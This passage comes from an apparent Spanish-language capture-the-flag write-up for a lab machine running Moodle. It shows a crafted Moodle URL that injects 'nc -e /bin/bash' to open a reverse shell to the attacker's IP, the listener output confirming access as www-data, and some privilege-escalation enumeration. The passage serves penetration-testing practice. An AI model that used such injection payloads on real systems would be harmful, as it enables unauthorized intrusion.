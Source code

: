 Vemos que hemos recibido una traza icmp de la dirección IP 10.10.10.153, que es la máquina víctima; así que ahora vamos a tratar de entablarnos una reverse shell, nos ponemos en escucha por el puerto 443:

 - http://10.10.10.153/moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=6&wizardnow=datasetitems&cmid=7&0=nc%20-e%20%22/bin/bash%22%2010.10.14.24%20443

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.153] 46242
whoami
www-data
```

Hacemos un [Tratamiento de la tty](/tratamiento-tty) para trabajar más cómodos. Una vez hecho, nos encontramos dentro de la máquina como el usuario `www-data` y no podemos visualizar la flag dentro del directorio `/home/giovanni`; asi que vamos a buscar una forma de escalar privilegios enumerando un poco el sistema:

```bash
www-data@teacher:/home$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@teacher:/home$ sudo -l
bash: sudo: command not found
www-data@teacher:/home$ cd /
www-data@teacher:/$ find \-perm -4000 2>/dev/null
./bin/ping
./bin/su
./bin/fusermount
./bin/umount
./bin/mount
./usr/lib/eject/dmcrypt-get-device
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/openssh/ssh-keysign
./usr/bin/newgrp
./usr/bin/gpasswd
./usr/bin/chsh
./usr/bin/chfn
./usr/bin/passwd
www-data@teacher:/$
```

No vemos nada interesante, así que vamos al recurso `/var/www/html/moodle` para ver si existe algo que podamos utilizar:

```bash
www-data@teacher:/var/www/html/moodle$ find \-name *config.php 2>/dev/null
./cache/classes/config.php
./lib/editor/tinymce/plugins/spellchecker/config.php
./config.php
./mod/chat/gui_ajax/theme/course_theme/config.php
./mod/chat/gui_ajax/theme/bubble/config.php
./mod/chat/gui_ajax/theme/compact/config.php
./theme/more/config.php
./theme/clean/config.php
./theme/bootstrapbase/config.php
./theme/boost/config.php
www-data@teacher:/var/www/html/moodle$
```
